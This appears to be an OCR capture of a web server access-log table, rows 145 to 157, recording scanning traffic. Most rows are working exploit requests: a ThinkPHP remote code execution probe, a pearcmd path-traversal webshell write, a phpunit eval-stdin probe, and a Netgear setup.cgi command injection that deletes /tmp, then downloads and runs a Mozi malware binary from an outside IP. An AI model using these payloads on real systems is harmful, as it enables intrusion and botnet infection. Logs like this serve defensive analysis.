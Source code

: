 | 145 |                     1 | GET /public/index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                                |
| 146 |                     1 | GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5(\x22hi\x22));?>+/tmp/index1.php HTTP/1.1                                                                                                                                                                                                                                                                      |
| 147 |                     1 | GET /index.php?lang=../../../../../../../../tmp/index1 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                  |
| 148 |                     1 | \x00\x0E8\xF7U\xB6o\x046\xA8\x08\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                             |
| 149 |                     1 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.199.180.15:54732/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                                                                                    |
| 150 |                     1 | \x16\x03\x01\x05\xA8\x01\x00\x05\xA4\x03\x03BN\x811C\xBC\xAAb\xE2\x14\x19\xC8\xA5Wo\xE9\x96\xDD\x17\xF5\xA9\x15[\x9C\x1Dt\xA2B\xA0\xBE\x03\xAB \xFD@\xD0<\xA0\xEB\xA2\xA1\xB3_\x12\xC7Hg2\x12v\xA8\xBD;p                                                                                                                                                                                                         |
| 151 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03h\x93\xEA\xCC,\xC3\xF2\xED\x8EQ\xB2^G\xA2\xE1\xCE\xDC\xD3{\xA5%|\x03,\x16\xE9\x90\xE8\x17\xD0\xC6> yg\xEE\xBB\x1BTKO\x80vE\x8F\x87.n\xA5\x81\x9E9O\xCFx3V\xA4\x99\x1A\xF1g\x80\x0B\xFD\x00&\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                                  |
| 152 |                     1 | GET /backup/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                          |
| 153 |                     1 | \x16\x03\x01\x00\xF2\x01\x00\x00\xEE\x03\x03:\xDEA\x84\x0E\xDBm\x06\x9B\x1F\x91V\x91\xF4O8\xEC\x9F\x1A\x1B\x06\xFC\xF1t_\x93y;\xC3v]\xDE \x88x\xDB\xF9\xC8\x13\xCD                                                                                                                                                                                                                                               |
| 154 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xEA&\xEA\xBE\xD1\xA8?%\xDD\xAFY\x1E\xA55\xF8\x0EJ\x18\xD5\xFF+\x06\xB3\xE2xlz7*\xF4,_\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                   |
| 155 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03I\x99\xF2\x8A\xA0\xAD\xF4DJ\xE7|U\xEB\xE5X\xE9\xCA7Y\xE1n\xE3\xAB\xCBT:\xBB\xA5o\xDF\x8B\xD3\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                             |
| 156 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03z\x07;|\x7F\xD9)\xA1Y\x83\xE2q\x1C\xFFA\xA7#\x88\x8F\xFA\xF7\x14\xF66l\xF4\xBC\xC8\x95\x80O\x1F\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                          |
| 157 |                     1 | GET /wp-admin/network/index.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                         |